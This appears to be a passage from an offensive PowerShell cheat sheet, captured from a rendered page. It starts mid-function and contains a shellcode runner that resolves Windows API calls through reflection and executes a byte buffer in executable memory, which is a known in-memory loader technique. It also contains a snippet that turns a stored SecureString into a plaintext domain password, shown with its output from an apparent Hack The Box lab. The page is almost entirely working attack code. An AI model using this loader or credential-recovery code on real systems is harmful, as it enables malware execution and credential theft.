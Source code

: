 ```powershell
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $retType, $argTypes).SetImplementationFlags('Runtime, Managed')
    $delegate = $type.CreateType()

    return [System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer($funcAddr, $delegate)
}
# Allow to retrieve function address from a dll
function LookupFunc {

 Param ($moduleName, $functionName)

 $assem = ([AppDomain]::CurrentDomain.GetAssemblies() | Where-Object { $_.GlobalAssemblyCache -And $_.Location.Split('\\')[-1].Equals('System.dll') }).GetType('Microsoft.Win32.UnsafeNativeMethods')
    $tmp=@()
    $assem.GetMethods() | ForEach-Object {If($_.Name -eq "GetProcAddress") {$tmp+=$_}}
 return $tmp[0].Invoke($null, @(($assem.GetMethod('GetModuleHandle')).Invoke($null, @($moduleName)), $functionName))
}

# Simple Shellcode runner using delegation
$VirtualAllocAddr = LookupFunc "Kernel32.dll" "VirtualAlloc"
$CreateThreadAddr = LookupFunc "Kernel32.dll" "CreateThread"
$WaitForSingleObjectAddr = LookupFunc "Kernel32.dll" "WaitForSingleObject" 


$VirtualAlloc = Get-Delegate $VirtualAllocAddr @([IntPtr], [UInt32], [UInt32], [UInt32]) ([IntPtr])
$CreateThread = Get-Delegate $CreateThreadAddr @([IntPtr], [UInt32], [IntPtr], [IntPtr], [UInt32], [IntPtr]) ([IntPtr])
$WaitForSingleObject = Get-Delegate $WaitForSingleObjectAddr @([IntPtr], [Int32]) ([Int])

[Byte[]] $buf = 0xfc,0x48,0x83,0xe4,0xf0 ...

$mem = $VirtualAlloc.Invoke([IntPtr]::Zero, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $mem, $buf.Length)
$hThread = $CreateThread.Invoke([IntPtr]::Zero, 0, $mem, [IntPtr]::Zero, 0, [IntPtr]::Zero)
$WaitForSingleObject.Invoke($hThread, 0xFFFFFFFF)

```

## Secure String to Plaintext

```ps1
$pass = "01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748692" | convertto-securestring
$user = "HTB\Tom"
$cred = New-Object System.management.Automation.PSCredential($user, $pass)
$cred.GetNetworkCredential() | fl
UserName       : Tom
Password       : 1ts-mag1c!!!
SecurePassword : System.Security.SecureString
Domain         : HTB
```
